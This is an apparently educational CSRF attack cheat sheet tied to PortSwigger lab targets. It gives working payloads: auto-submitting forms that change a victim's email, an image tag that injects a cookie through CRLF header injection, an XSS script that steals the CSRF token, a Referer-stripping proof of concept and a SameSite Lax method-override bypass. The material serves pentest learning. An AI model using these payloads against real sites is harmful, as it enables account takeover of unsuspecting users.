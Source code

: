 # CSRF (Cross-Site Request Forgery) Attack Guide

---

## Index

1. [Testing CSRF Token](#testing-csrf-token)
2. [Testing CSRF Token and CSRF Cookies](#testing-csrf-token-and-csrf-cookies)
3. [Exploitation Techniques](#exploitation-techniques)
   - [HTML Exploit Example](#html-exploit-example)
   - [Image-based CSRF Cookie Injection](#image-based-csrf-cookie-injection)
   - [XSS Based CSRF Attack](#XSS-Based-CSRF-Attack)
5. [Testing the Referer Header for CSRF Attack](#testing-the-referer-header-for-csrf-attack)
   - [Exploit for Referer Header Validation (Case 1)](#exploit-for-referer-header-validation-case-1)
6. [Bypassing SameSite Policy](#bypassing-samesite-policy)
   -[Lax Bypass Via Method Override](#Lax-Bypass-Via-Method-Override)

---

## Testing CSRF Token

When testing a CSRF token, follow these steps:

1. **Remove CSRF parameter/token**: Check if the application accepts requests without the token.
2. **Change request method (POST to GET)**: Test if changing the method affects token validation.
3. **Exchange CSRF token with another user**: Verify if tokens are user-specific by testing another user’s token.

---

## Testing CSRF Token and CSRF Cookies

**If CSRF cookie Not Tied With User Session Cookie**

1. **Submit an invalid CSRF token**: See if the application accepts it.
2. **Submit a valid CSRF token from another user**: Check if the token is user-specific. 
3. **Submit a valid CSRF token and CSRF cookie from another user**: Test if both token and cookie are required to match.
4. **Assign a random value to token + cookie**: In a duplicated token cookie, try setting the same random value to both.

**If CSRF cookie Tied With User Session Cookie**

[Portswigger Lab](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie)

<br>

**Note:** You can collect csrf token by inspect element.

---

### Exploitation Techniques

To exploit a CSRF token + cookie mechanism, two actions are required:

1. **Inject a CSRF cookie into the user's session** (via HTTP header injection)
2. **Send a CSRF attack to the victim**

### HTML Exploit Example

```html
<form action="https://0ac3007703f51dc881598ea300940055.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked&#64;a&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
<script>
        document.forms[0].submit();
</script>
```

### Image-based CSRF Cookie Injection

```html
<form action="https://0ac3007703f51dc881598ea300940055.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked&#64;a&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
<img src="https://0a5000e9036c9fa3820d15c300a500d4.web-security-academy.net/?search=asdasfa%0d%0aSet-Cookie:%20csrf=testing;%20SameSite=None" onerror="document.forms[0].submit()">
```

### XSS Based CSRF Attack

```html
<script>
  var req = new XMLHttpRequest();
  req.onload = handleResponse;
  req.open('get', '/my-account', true);
  req.send();

  function handleResponse() {
    // Extract the CSRF token from the response
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];

    // Display the token in a popup alert
    alert('Extracted CSRF Token: ' + token);

    // Send a POST request to change the email
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf=' + token + '&email=test@test.com');
  }
</script>
```

---

## Testing the Referer Header for CSRF Attack

1. **Remove the Referer header**: See if the application still processes the request without it.
2. **Validate which part of the Referer header is used**: Identify which part is validated by the application.

   - **Example 1**: `Referer: https://attacker.com/?vulnerable-web.net`
   - **Example 2**: `Referer: http://vulnerable-website.com.attacker-website.com/csrf-attack`

### Exploit for Referer Header Validation (Case 1)

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
<head>
<meta name="referrer" content="no-referrer">
</head>
  <body>
    <form action="https://0ac3007703f51dc881598ea300940055.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked&#64;a&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

---

## Bypassing SameSite Policy

### **Table**

| Attribute         | Sent with Cross-Origin Requests? | Sent on Same-Site Requests? | Notes                                       |
|-------------------|----------------------------------|-----------------------------|---------------------------------------------|
| `Strict`          | No                              | Yes                         | Most secure, but may reduce usability.      |
| `Lax`             | Limited (e.g., navigation GET)  | Yes                         | Good balance between usability and security.|
| `None` (with `Secure`) | Yes                             | Yes                         | Necessary for third-party cookies.          |
| No Attribute      | Limited (assumed `Lax`)         | Yes                         | Default behavior in most modern browsers.   |

---

[Same site explanation](https://www.youtube.com/watch?v=aUF2QCEudPo&t=360s)

<br>

Key Note:
```plaintext
Set-Cookie: session=bciZoELY2ukJUUOj1zJ7wcAGdYXtvq3C; Secure; HttpOnly; SameSite=Strict
```

### Lax Bypass Via Method Override

1. **Change request method from POST to GET in Burp**
2. **Try overriding the method by adding the ```_method``` parameter to the query string**

**Example**: GET /my-account/change-email?email=pwned@hacked.com```&_method=POST``` HTTP/1.1

**Payload**
```javascript
<script>
    document.location = "https://vulnerable.web/my-account/change-email?email=pwned@hacked.com&_method=POST";
</script>
```

--- 
Key Note:
```plaintext
Set-Cookie: session=bciZoELY2ukJUUOj1zJ7wcAGdYXtvq3C; Secure; HttpOnly; SameSite=Strict
```
